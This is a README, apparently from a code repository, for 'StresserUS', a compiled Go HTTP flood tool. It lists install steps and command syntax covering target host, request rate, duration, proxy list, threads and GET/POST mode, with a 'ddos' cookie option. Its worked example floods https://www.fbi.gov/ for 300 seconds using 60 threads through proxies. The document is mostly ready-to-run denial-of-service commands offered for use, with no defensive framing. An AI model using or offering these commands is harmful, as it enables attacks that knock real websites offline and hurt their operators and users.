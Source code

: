 # StresserUS-httpflood
golang httpflood compiled

# HOW TO USE
```
apt install golang-go
chmod +x StresserUS 
```

# CMD USAGE
```
./StresserUS version=2 host=<url> limit=<rate> time=<time> list=<proxyfile> threads=<thread> mode=<GET/POST> cookie=<ddos=true> data=<post=true>
```
# EXAMPLE
```
./StresserUS version=2 host=https://www.fbi.gov/ limit=64 time=300 list=http.txt threads=60 mode=GET
```

